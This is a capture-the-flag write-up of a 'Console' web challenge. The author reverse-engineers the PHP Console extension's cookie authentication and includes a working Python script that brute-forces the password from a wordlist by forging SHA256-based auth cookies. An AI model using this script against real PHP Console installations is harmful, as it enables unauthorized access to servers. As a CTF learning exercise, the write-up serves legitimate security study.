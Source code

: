 # Console

So when we launch the challenge and go on the webpage we are greeted with a php info page with something that stands out:

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

after looking up what was php-console we can see this repository:

{% embed url="https://github.com/barbushin/php-console" %}

So from what i see i need to launch the tool in a chromium browser and it's not in the extension store so i clone the repo of the extension, go in the extension manager and load the unpacked extension and select the php console extension folder, update and we'll be good:

<figure><img src="../../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (25).png" alt=""><figcaption><p>Now we can use it </p></figcaption></figure>

So let's go back on our phpinfo page and refresh it, the extension should prompt us for some sort of password:

<figure><img src="../../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

I enter test as... a test and nothing seems to change and then i decide to go and see the cookies of our page and see a php-console cookie that was not here before:

<figure><img src="../../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

So i go and decode the base64 cookie to reveal the interesting content:

<figure><img src="../../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

So i mess around for some time trying to see how the token is crafted then i try and re input a random password (helloworld) and see that the cookie changes slightly:

<figure><img src="../../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

publicKey stayes the same but token changes and if a reinput the same password, the token is always the same so the token must be crafted using the password and god knows what other parameters

If we go in the github of the tool and look at the Auth.js file we find exactly what we want:

```javascript
function DomainAuth(domain, publicKey, passwordHash) {

	this.domain = domain;
	this.publicKey = publicKey;
	this.hash = passwordHash;

	this.getAuthToken = function() {
		if(this.hash && this.publicKey) {
			return window['CryptoJS']['SHA256'](this.hash + this.publicKey).toString();
		}
	};

	this.getSignature = function(string) {
		if(this.hash && this.publicKey) {
			return window['CryptoJS']['SHA256'](this.hash + this.publicKey + string).toString();
		}
	};

	this.getClientAuth = function() {
		var token = this.getAuthToken();
		if(token && this.publicKey) {
			return {
				'publicKey': this.publicKey,
				'token': token
			}
		}
	};
}
```

`this.getAuthToken` generates an authentication token by hashing the concatenation of `this.hash` and `this.publicKey` using the **SHA256** algorithm provided by `CryptoJS`

I am very bad with scripts for the moment so i went and got a script from a writeup:

```python
from pwn import *
import requests
import json

url = 'http://83.136.253.73:49889'
wordlist = open('/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt', 'r')
salt = 'NeverChangeIt:)'  # Salt used in hashing
public_key = '370244b500c702b16dddb1678c882d2b7aa0b3bcdf94fb6bb9e792460c5d460b'  # Grab from response header

for count, password in enumerate(wordlist):
    password = password.strip()
    if password:
        # sha256 the password and salt
        hashed_password = sha256sumhex((password + salt).encode())
        # sha256 the hashed password and the public key
        token = sha256sumhex((hashed_password + public_key).encode())

        # Build up a cookie
        php_console_server = 'php-console-server=5;'
        php_console_client = '{"php-console-client":5,"auth":{"publicKey":"' + public_key + '","token":"' + token + '"}}'
        headers = {'Cookie': php_console_server + 'php-console-client=' + b64e(php_console_client.encode())}

        # Send the request and grab PHP console header response
        response = requests.get(url, headers=headers)
        php_console_response = json.loads(response.headers['PHP-Console'])

        # Success?
        if php_console_response['auth']['isSuccess'] != False:
            print("Success! Correct password was: " + password)
            wordlist.close()
            quit()

print("Failed to find correct password :(")
wordlist.close()
```

and after getting the password and inputting it in the php console we were able to get the flag in the header of the app:

<figure><img src="../../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>
